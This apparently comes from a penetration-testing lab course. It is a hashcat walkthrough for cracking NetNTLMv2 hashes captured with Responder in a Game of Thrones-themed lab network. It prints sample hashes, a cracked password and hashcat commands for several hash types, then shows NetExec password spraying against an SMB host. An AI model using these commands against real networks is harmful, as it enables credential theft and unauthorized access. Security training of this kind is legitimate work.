


# Lab - HASHCAT

???+ warning "Prerequisites"
    You need the hashes from the Responder demo/lab.

## Intro

Hashcat is an advanced password recovery utility, capable of cracking encrypted password hashes on-demand. The tool is recognized for its versatility as it supports a multitude of hashing algorithms. With Hashcat, security professionals can perform a variety of cryptographic attacks such as brute force, combinatorial, dictionary, and hybrid, to uncover weak points in their security infrastructure and bolster their defenses accordingly.

## Walkthrough

???+ note
    You can reset hashcat so you can crack the passwords again by removing the `/home/telchar/.local/share/hashcat/hashcat.potfile` file with the below command.

    ```bash
    rm /home/telchar/.local/share/hashcat/hashcat.potfile
    ```

This Lab is fairly straightforward we're going to take the hashes we captured with responder from the previous labs and we're going to attempt to crack them using hashcat. It's always good practice to attempt to crack any hashes that you get on an engagement. This can help provide us with additional valid credentials to use throughout the environment in later stages.

Hashcat supports the cracking of a TON of different hash types by assigning a specific “hash-mode” value to each hash type. 

First things first we need the hashes from our responder lab in a file that we can reach. You did do that right? You didn’t skip that Lab step did you??

Well just in case you did or if you couldn't get that lab to work properly, here are the extracted hashes for you to put in a file yourself. Put these in a file called `responder.hashes` in your home directory (`/home/telchar`).

```
robb.stark::NORTH:1122334455667788:138B29A14C5A082F19F946BB3AFF537E:01010000000000000090C5E56494D801E5D2F5789054B95D0000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900160063006900660073002F0042007200610076006F0073000000000000000000
eddard.stark::NORTH:1122334455667788:76E26250ABF96A09E68ADC5A9B1A4C29:01010000000000000090C5E56494D801CA05EDDA86BE30280000000002000800480053003600340001001E00570049004E002D004C00420052004E0041004D0031005300540051005A0004003400570049004E002D004C00420052004E0041004D0031005300540051005A002E0048005300360034002E004C004F00430041004C000300140048005300360034002E004C004F00430041004C000500140048005300360034002E004C004F00430041004C00070008000090C5E56494D801060004000200000008003000300000000000000000000000003000002D4B5557B9EF589ECE5944B06785A55D686F279D120AC87BCBF6D0FEAA6663B90A001000000000000000000000000000000000000900140063006900660073002F004D006500720065006E000000000000000000
```

Now that we have our hashes in a file that we can reach, run the command below to start cracking.

```bash
hashcat -m 5600 --force -a 0 ~/responder.hashes /usr/share/eaphammer/wordlists/rockyou.txt
```

???- note "Command Options/Arguments Explained"
    - **`-m 5600`**: Specifies the hash type that Hashcat will attempt to crack. In this case, **`5600`** refers to NetNTLMv2 hashes, a type of hash used by Microsoft for password storage and network authentication in the NTLM (New Technology LAN Manager) protocol.
    - **`--force`**: This option forces Hashcat to start despite any warnings that might suggest it's not a good idea to proceed. It's important to use this option with caution, as it can bypass safety mechanisms designed to protect your hardware or data.
    - **`-a 0`**: Specifies the attack mode. **`0`** is for a straight attack, which means Hashcat will use a wordlist as-is, trying each entry as a potential password against the provided hashes.
    - **`responder.hashes`**: This is the file containing the hashes that you're attempting to crack. The name suggests these hashes were obtained using Responder, a tool commonly used for network security testing, specifically for capturing hashes by responding to different types of network requests.
    - **`/usr/share/eaphammer/wordlists/rockyou.txt`**: Specifies the path to the wordlist that Hashcat will use for the attack. The **`rockyou.txt`** wordlist is famous in password cracking and cybersecurity tests for its extensive collection of leaked passwords, making it a valuable resource for attempting to crack common or weak passwords.

???+ warning
    This process might take a while depending on your setup so get comfortable and watch for the output below. You should be able to crack Robb's password but not Eddard's.

{ width="70%" }
///caption
The King in the North!
///

Looks like the `robb.stark` user has the cleartext password of `sexywolfy`.

Like all good attackers, let's set these now valid clear text credentials aside somewhere in case we need them later on in our engagement. These can always be retrieved later by looking in the `hashcat.pot` file.

```bash
cat /home/telchar/.local/share/hashcat/hashcat.potfile
```

### Hashcat Common Configurations

Just for reference…

#### NT Hashes

```bash
hashcat -m 1000 hashes.txt /opt/wordlists/<file>.txt \
--rules-file /opt/rules/<file>.rule \
--runtime 321123
```

#### Kerberos 5

```bash
hashcat -m 13100 hashes.txt /opt/wordlists/<file>.txt \
--rules-file /opt/rules/<file>.rule \
--runtime 321123
```

#### JWT

```bash
hashcat -m 16500 hashes.txt /opt/wordlists/<file>.txt \
--rules-file /opt/rules/<file>.rule \
--runtime 321123
```

### Hash Types

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

{ width="70%" }
///caption
Sample Set
///

### SMB Password Spraying (w/ NetExec)

Now that we’ve cracked a password, let’s revisit NetExec and see how we can reuse the cleartext password in a spraying attack.

First let’s get a list of names and tack robb.stark on to the end of it for demonstration purposes.

```bash
wget -O ~/last-names.txt https://raw.githubusercontent.com/arineng/arincli/master/lib/last-names.txt
echo "robb.stark" >> ~/last-names.txt
```

If you had collected a user list in your travels (like we just created above), a Password Spraying attack with NetExec can be accomplished via the below command syntax.

```bash
nxc smb 192.168.56.22 -u ~/last-names.txt -p 'sexywolfy'
```

{ width="70%" }
///caption
Password Spraying
///

Wait we weren’t targeting the user “SMITH”. What happened??

Let’s create a file of just `robb.stark` and rerun that command.

```bash
echo "robb.stark" > ~/kinginthenorth
nxc smb 192.168.56.22 -u ~/kinginthenorth -p 'sexywolfy'
```

{ width="70%" }
///caption
Shared Passwords
///

It looks like we *might* have stumbled across another valid user with the same password.